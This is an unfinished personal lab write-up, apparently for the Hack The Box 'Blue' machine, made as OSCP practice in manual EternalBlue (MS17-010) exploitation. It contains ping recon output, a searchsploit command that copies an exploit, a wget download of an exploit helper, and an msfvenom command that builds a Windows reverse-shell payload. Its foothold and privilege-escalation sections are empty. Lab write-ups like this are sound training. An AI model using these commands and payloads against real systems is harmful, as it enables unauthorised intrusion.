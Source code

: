 # Blue
Name: Blue
Date:  
Difficulty:  Easy
Description:  
Better Description:  
Goals:  OSCP Prep, rewrite a python exploit
Learnt:

## Recon
The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
```bash
ping -c 3 10.129.105.18  
PING 10.129.105.18 (10.129.105.18) 56(84) bytes of data.
64 bytes from 10.129.105.18: icmp_seq=1 ttl=127 time=232 ms
64 bytes from 10.129.105.18: icmp_seq=2 ttl=127 time=233 ms
64 bytes from 10.129.105.18: icmp_seq=3 ttl=127 time=221 ms

--- 10.129.105.18 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 221.410/228.976/233.237/5.364 ms
```
Even though the name of this room is very siumilar to a famous exploit,
seeing the `Windows 7 Professional 7601 Service Pack 1 microsoft-ds` in nmap of anything to means to check for Eternal Blue. But I also run other nmap scan for completeness and Vuln returns the dreaded smb-vuln-ms17-010.

## Exploit

Although metasploit has a module for this and it a quick couple of commands to execute I will perform this manually. I looked up manual exploitation of Eternal Blue and found this  article: [redteamzone](https://redteamzone.com/EternalBlue/). Following the steps layed out while being mindful this is a windows 7 exploit using old versions and implementations of python. 

```bash
searchsploit eternal
searchsploit -m 42315.py # -m copies to current working directory
```
![searchsploit](Screenshots/searchsploit.png)

The dependency missing from my VM like the guide is mysmb.
```bash
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```
Potentially change username and password to `'vagrant'`, ran regardless to detirmine are incompatiblities 
![concat](canonlyconcatstr.png)

I later returned to this box once more time and recognised it was considerable out of date so I tried the [huey](https://dev.to/0xhuey/manually-exploiting-ms17-010-python2-to-python3-3l2k)


```bash
# reverse_tcp for the OSCP guidelines
msfvenom -p windows/shell_reverse_tcp LHOST=10.129.105.18 LPORT=4444 -f exe -o shell.exe
```

## Foothold

## PrivEsc

      
